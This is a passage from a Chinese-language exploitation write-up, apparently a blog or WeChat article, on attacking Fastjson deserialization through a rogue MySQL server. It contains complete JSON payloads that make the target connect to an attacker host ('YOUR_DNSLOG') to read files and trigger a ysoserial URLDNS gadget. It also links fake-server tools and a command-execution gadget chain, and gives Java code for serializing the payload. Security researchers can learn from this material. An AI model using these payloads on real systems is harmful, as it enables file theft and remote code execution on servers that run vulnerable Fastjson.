既然触发了DNSLOG，那么接下来就可以搭建一个利用Mysql服务了，用到了下面这个项目，根据使用说明书进行使用  
  
  
python<3.8用这个https://github.com/fnmsd/MySQL_Fake_Server  
  
  
python3.8+用这个https://github.com/clown1ay/MySQL_Fake_Server  
  
  
首先进行文件读取，user指定要读取的文件  
  
```
{  "@type": "java.lang.AutoCloseable",  "@type": "com.mysql.jdbc.JDBC4Connection",  "hostToConnectTo": "YOUR_DNSLOG",  "portToConnectTo": 7777,  "info": {    "user": "win_ini",    "password": "pass",    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",    "autoDeserialize": "true",    "NUM_HOSTS": "1"  },  "databaseToConnectTo": "dbname",  "url": ""}
```  
  
本地和目标系统都读取不成功，本地  
mysql-connector-java为5.1.47  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0UZ7s6fyUx7RZ5YvxX2icOByuZOuwMaT5MFawD7LkHQZ9ehERU7wL4y6QPIguZwClTeR7UNhRCHcA/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
转战反序列化，先进行DNSURL利用链探测，反序列化操作是否成功  
  
```
{  "@type": "java.lang.AutoCloseable",  "@type": "com.mysql.jdbc.JDBC4Connection",  "hostToConnectTo": "YOUR_DNSLOG",  "portToConnectTo": 7777,  "info": {    "user": "yso_URLDNS_http://YOUR_DNSLOG",    "password": "pass",    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",    "autoDeserialize": "true",    "NUM_HOSTS": "1"  },  "databaseToConnectTo": "dbname",  "url": ""}
```  
  
本地演示  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0UZ7s6fyUx7RZ5YvxX2icOBylOLcL2MRhtQvibiaR7JYZibhcCiaFSptsIDNTtUicnoDM9b0Wlafu9bGBw/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0UZ7s6fyUx7RZ5YvxX2icOBpDvxpkkQ89VicRIBTLaaJVA6TaEE0YASHmyGYedY2eic2ic6KUe1hMeVQ/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
既然能正常执行反序列化操作，那么下一步就需要测试命令执行。这里使用到了@Y4tacker大佬给出的利用链  
  
  
https://paper.seebug.org/2067/  
  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0UZ7s6fyUx7RZ5YvxX2icOBO92Ny1oFvnhvVMXmDy2Rka4ibZdAHhShO44cLPMoGWGq80ISDSXc40A/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
## 代码微调  
  
  
直接拿文章中给出的代码进行修改，添加这段代码，将反序列化的内容保存到文件中。自定义执行命令  
  
```
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("fastjson1268.bin"));oos.writeObject(hashMap);oos.close();
```  
  